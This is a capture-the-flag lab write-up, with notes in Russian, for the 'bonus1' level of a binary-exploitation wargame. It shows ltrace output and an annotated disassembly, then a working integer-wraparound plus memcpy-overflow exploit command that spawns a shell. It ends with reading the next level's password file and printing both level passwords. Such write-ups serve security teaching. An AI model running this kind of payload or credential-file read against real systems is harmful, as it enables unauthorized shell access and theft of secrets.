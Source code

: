 # su bonus1
# pass: cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9

====
Уязвимость: memcpy переполнение, переполнение инта
====

**Поведение: Без аргументов сегается, требует хотя бы 1**

# ltrace ./bonus1 
__libc_start_main(0x8048424, 1, 0xbffff804, 0x80484b0, 0x8048520 <unfinished ...>
atoi(0, 0x8049764, 1, 0x80482fd, 0xb7fd13e4 <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++

# ltrace ./bonus1 a b c d
__libc_start_main(0x8048424, 5, 0xbffff7e4, 0x80484b0, 0x8048520 <unfinished ...>
atoi(0xbffff916, 0x8049764, 5, 0x80482fd, 0xb7fd13e4)                          = 0
memcpy(0xbffff714, "", 0)                                                      = 0xbffff714
+++ exited (status 0) +++

Проверим функции: 

# i func
<>
0x08048424  main
<>

Смотрим мейн

# disas main
Dump of assembler code for function main:
   0x08048424 <+0>:     push   %ebp
   0x08048425 <+1>:     mov    %esp,%ebp
   0x08048427 <+3>:     and    $0xfffffff0,%esp
   0x0804842a <+6>:     sub    $0x40,%esp                       64
   0x0804842d <+9>:     mov    0xc(%ebp),%eax                   12
   0x08048430 <+12>:    add    $0x4,%eax                        +4
   0x08048433 <+15>:    mov    (%eax),%eax
   0x08048435 <+17>:    mov    %eax,(%esp)
   0x08048438 <+20>:    call   0x8048360 <atoi@plt>
   0x0804843d <+25>:    mov    %eax,0x3c(%esp)                  60
   0x08048441 <+29>:    cmpl   $0x9,0x3c(%esp)                  9
   0x08048446 <+34>:    jle    0x804844f <main+43>              <=
   0x08048448 <+36>:    mov    $0x1,%eax                        1
   0x0804844d <+41>:    jmp    0x80484a3 <main+127>
   0x0804844f <+43>:    mov    0x3c(%esp),%eax
   0x08048453 <+47>:    lea    0x0(,%eax,4),%ecx                *4
   0x0804845a <+54>:    mov    0xc(%ebp),%eax                   12
   0x0804845d <+57>:    add    $0x8,%eax                        +8
   0x08048460 <+60>:    mov    (%eax),%eax
   0x08048462 <+62>:    mov    %eax,%edx
   0x08048464 <+64>:    lea    0x14(%esp),%eax                  20
   0x08048468 <+68>:    mov    %ecx,0x8(%esp)                   0
   0x0804846c <+72>:    mov    %edx,0x4(%esp)                   4
   0x08048470 <+76>:    mov    %eax,(%esp)
   0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:    cmpl   $0x574f4c46,0x3c(%esp)           1464814662
   0x08048480 <+92>:    jne    0x804849e <main+122>             !=
   0x08048482 <+94>:    movl   $0x0,0x8(%esp)                    0
   0x0804848a <+102>:   movl   $0x8048580,0x4(%esp)              "sh"
   0x08048492 <+110>:   movl   $0x8048583,(%esp)                 "/bin/sh"
   0x08048499 <+117>:   call   0x8048350 <execl@plt>
   0x0804849e <+122>:   mov    $0x0,%eax
   0x080484a3 <+127>:   leave  
   0x080484a4 <+128>:   ret    
End of assembler dump.

memcpy уязвим для переполнения. Проблема в том, что первый аргумент должен быть не больше 9, 
а второй требует = 1464814662, при этом туда будет записано не больше 9 * 4 (36).
тогда стоит попробовать переполнение и найти такое отрицательное число, которое будет восприниматься как положительное.
Из отрицательных чисел можно взять -1073741813 и -2147483637.
Далее - второй аргумент для переполнения memcpy - 40 байт буффер + саму переменную, которая сравнивается

# ./bonus1 -1073741813 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')

# cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245